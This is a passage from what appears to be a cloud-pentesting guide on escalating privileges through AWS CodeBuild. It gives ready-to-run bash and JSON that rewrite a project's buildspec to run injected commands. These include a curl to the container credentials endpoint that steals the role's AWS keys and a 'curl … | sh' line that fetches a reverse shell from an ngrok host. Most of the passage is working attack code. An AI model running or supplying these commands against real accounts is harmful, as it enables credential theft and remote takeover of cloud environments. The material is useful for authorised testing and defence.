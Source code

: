 ```bash
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"aws/codebuild/standard:1.0\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\"
    },
    \"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```

**Potential Impact:** Direct privesc to any AWS Codebuild role.

### `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Like in the previous section but **without the `iam:PassRole` permission**, you can abuse this permissions to **modify existing Codebuild projects and access the role they already have assigned**.

{% tabs %}
{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

JSON="{
    \"name\": \"<codebuild-demo-project>\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\",
        \"imagePullCredentialsType\": \"CODEBUILD\"
    }
}"

# Note how it's used a image from AWS public ECR instead from docjerhub as dockerhub rate limits CodeBuild!

printf "$JSON" > $REV_PATH

```